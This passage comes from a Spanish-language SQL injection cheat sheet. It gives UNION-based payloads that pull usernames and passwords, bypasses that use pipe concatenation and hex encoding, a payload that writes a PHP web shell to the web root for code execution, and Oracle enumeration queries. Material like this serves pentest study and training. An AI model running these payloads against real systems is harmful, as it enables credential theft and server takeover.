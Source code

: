 ### Otra forma de concatenar la información (Bypassing con pipes || )
Si no permite la anterior podemos probar así:
````sql
$WORD' union select null, username||':'||password from NOMBRETABLA-- -
````

### Bypassing cadenas de caracteres con hexadecimal
Si no deja poner una cadena de separatoria (como son los : puedes poner su valor en **hexadecimal**):
````sql
$WORD' union select null, concat(username,'0x3a',password) from users-- -
````

Si no deja representar alguna cadena de texto en otro sitio sería igual, lo podemos representar en hexadecimal, para ello podemos utilizar lo siguiente:
````sql
echo "admin" | tr -d '\n' | xxd -ps
````
Con el tr -d '\n' le estamos quitando el salto de línea para que se represente

En caso de que no dejará podriamos ir a la [cheat sheet de portswigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### SQLI --> RCE

**Si tenemos permiso de escritura** incluso podemos colar archivos:
````sql
$WORD' union select <?php system('whoami'); ?>,"test" into outfile "/var/www/html/COMANDO.php"-- -
````
La ruta no tiene porque ser está, esto tendríamos que investigar cual sería

## Oracle

## Ver las filas que se están usando Oracle

Es igual que sql, con la diferencia de que aquí **siempre tienes que estár apuntando a una tabla**

Para ello vamos a utilizar la tabla **dual**, que está la tienen todas las bases de datos de Oracle por defecto (es la tabla boba)
````sql
$WORD' union select null,null from dual-- -
````

## Identificar campo vulnerable y ver versión y tipo de Oracle

Sabemos que el segundo campo es el que nos va a permitir representar información así que pedimos la versión y el tipo con **banner from v$version**

````sql
$WORD' union select null,banner from v$version-- -
````
